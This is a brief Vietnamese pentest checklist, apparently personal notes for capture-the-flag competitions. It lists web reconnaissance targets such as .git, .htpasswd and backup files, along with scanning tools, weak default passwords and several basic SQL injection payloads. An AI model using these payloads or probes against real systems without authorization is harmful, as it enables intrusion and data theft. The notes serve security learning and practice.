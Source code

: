 # My Pentest Check List

> Một vài note nhỏ cho bản thân 

> Giảm thởi gian ngu ngốc trong cuộc thi

> Mong sẽ giúp ích được cho các bạn

## Server

### Discovering
1. File thông dụng: /robots.txt,.git, .htaccess, .htpasswd
2. Các url con: /images, /js, /css
3. Cookie, Console, Network
4. Backup file: ~,bak,zip,bzr
4. Http header: 
    Server
    * X-Powered-By: PHP
    * X-AspNet-Version: ASP.Net
    * x-cache, x-status, hit/miss: web cache
    * X-Application-Context: spring boot
5. Dirsearch, Dirbuster, nmap 

```py dirsearch.py -u <url> -e * ```

6. Weak password: `admin`, `123456`

### SQL Injection
Đối với những website chỉ có login, register, truy xuất dữ liệu từ database, ta có thể test thử: Có thể là ở các khung input, cookie, user-gent,...
    `3' or 1=1 -- +`
    `3' or 1=1 #`
    `3' or 1=1 /*`
    `3' or '1'='1`
    `3' or sleep(1) -- +`
    `3' union select * from user -- +`

## Client
